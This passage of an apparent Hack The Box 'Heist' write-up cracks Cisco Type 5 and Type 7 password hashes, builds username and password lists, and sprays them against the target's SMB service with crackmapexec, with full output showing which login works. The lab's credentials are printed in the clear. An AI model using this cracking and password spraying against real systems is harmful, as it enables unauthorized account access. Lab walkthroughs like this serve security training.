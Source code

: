 Here it cracked Type 5 hash : `stealth1agent`.

For the Type 7 hashes, here I found online tool:
https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html

![](attachments/heist_4.png)

`rout3r`'s password is `$uperP@ssword`

![](attachments/heist_5.png)

`admin`'s password is `Q4)sJu\Y8qz*A3?d`

Let's save all found usernames and passwords as lists;

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat usernames.txt 
hazard
rout3r
admin

┌──(kali㉿kali)-[~/htb]
└─$ cat passwords.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

Let's try finding valid credential set using `crackmapexec` on smb service.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
```
